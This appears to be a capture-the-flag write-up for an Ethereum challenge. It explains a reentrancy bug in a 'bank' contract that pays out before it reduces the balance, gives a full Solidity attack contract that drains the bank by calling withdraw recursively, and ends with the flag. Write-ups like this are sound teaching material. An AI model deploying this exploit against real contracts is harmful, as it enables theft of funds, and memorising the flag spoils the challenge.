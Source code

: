 # 残響 (eth 470)

The challenge implements a "bank" where the withdrawal amount is paid out by calling the sender's "receive" function. We solve the challenge if we can completely drain the bank's funds. This is possible because the contract is vulnerable to re-entry: it does not decrease the user's balance until after sending the money, and the receiver can recursively call the withdraw function before the balance is decreased.

```
  function withdraw(uint256 _amount) external {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call.value(_amount)("");
      balances[msg.sender] -= _amount; // This should have been done first!
    }
  }
```

## Solution
We can attack the challenge contract with a malicious contract of our own:

```
pragma solidity ^0.6.0;

import "./Iterator.sol";

contract Attack {
  Iterator public it;
  constructor() public {
    it = Iterator(0x9E2798F23540c8C2cDbC7461f50754Ef0A67450E);
  }

  receive() external payable {
    if(it.balanceOf(address(this)) > 0) {
      it.withdraw(10 ether);
    }
  }
  function a() external {
    it.withdraw(1 ether);
  }
}
```

Calling the `a` function starts the attack and drains the bank. However, the bank needs to be funded a bit first by giving the contract credit.

## Flag
`X-MAS{Th1s_goes_0n_and_on_and_on_and_on_and_on_and_on_and_on_and_on_and_on_and_on_and_on}`
